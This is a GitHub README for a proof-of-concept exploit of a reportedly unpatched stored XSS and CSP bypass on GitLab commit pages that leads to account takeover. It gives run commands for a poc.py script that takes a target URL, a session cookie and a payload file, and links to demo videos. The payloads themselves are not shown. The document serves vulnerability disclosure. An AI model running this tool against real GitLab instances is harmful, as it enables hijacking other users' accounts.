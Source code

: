 # ⚠️ Legal Disclaimer

This Proof-of-Concept (PoC) is provided **for educational purposes only**.  

- **Authorized Use Only**: Test only on systems you own or have explicit permission to assess.  
- **No Liability**: The author is not responsible for misuse or damages caused by this tool.  
- **Ethical Responsibility**: Do not use this tool to violate laws or exploit systems without consent.  

By using this software, you agree to these terms. 

# Gitlab XSS & CSP Bypass on Commit Page - ATO - POC Code/Video

Unpatched known vulnerability as of Wednesday, May 21, 2025. Version - 18.1.0-pre - 100+ days since report at February 4, 2025. Severity is somewhere between 8.0 and 9.0.

## Video POC - XSS

[![PoC Video](https://img.youtube.com/vi/xEB7v0Ye7pE/maxresdefault.jpg)](https://youtu.be/xEB7v0Ye7pE)

## Video POC - ATO

[![PoC Video](https://img.youtube.com/vi/rzFndaPhj2k/maxresdefault.jpg)](https://youtu.be/rzFndaPhj2k)

## Quick Start

1. Clone the repository:

```
git clone https://github.com/justas-b1/gitlab-xss.git
cd gitlab-xss
```

2. Modify the xss.txt or ato.txt file.

3. Run - XSS
```
python poc.py --url "https://gitlab.com/group/project/-/commit/49d1bf57b239f06b87d317868anmnc3447e59581" --session "YOUR_SESSION_COOKIE_VALUE" --file xss.txt
```

4. Run - ATO
```
python poc.py --url "https://gitlab.com/group/project/-/commit/49d1bf57b239f06b87d317868anmnc3447e59581" --session "YOUR_SESSION_COOKIE_VALUE" --file ato.txt
```

### 🔍 How to Find _gitlab_session in Request Headers (Using Browser DevTools)
